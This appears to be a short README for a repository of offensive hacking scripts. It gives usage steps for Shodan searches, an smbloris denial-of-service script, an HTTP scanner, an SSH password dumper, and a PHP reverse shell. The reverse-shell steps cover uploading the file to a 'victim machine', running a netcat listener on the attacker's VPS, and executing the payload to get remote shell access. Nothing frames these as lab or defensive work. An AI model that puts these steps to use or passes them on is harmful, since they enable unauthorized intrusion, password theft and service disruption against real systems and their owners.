 #Th1s 1s a rep0 ab0ut h3cking scr1pts

#shodan

shodancount.py <search query>

shodansearch.py <search query>

#smbloris

chmod +x run10.sh

sh run10.sh

#httpscan

httpscan.py <ip>

#dump_ssh_password

chmod +x ssh_password.sh

sh password.sh

open a new window to ssh login , you'll see the ssh password

#php-reverse-shell

modify the $ip and $port in php-reverse-shell.php in line 49 and 50

upload php-reverse-shell.php to the victim machine

login to your vps,listen the port

nc -lvp 1234

execute the php on the victim machine,you'll get the reverse shell

php php-reverse-shell.php

Hope you enjoy ^_^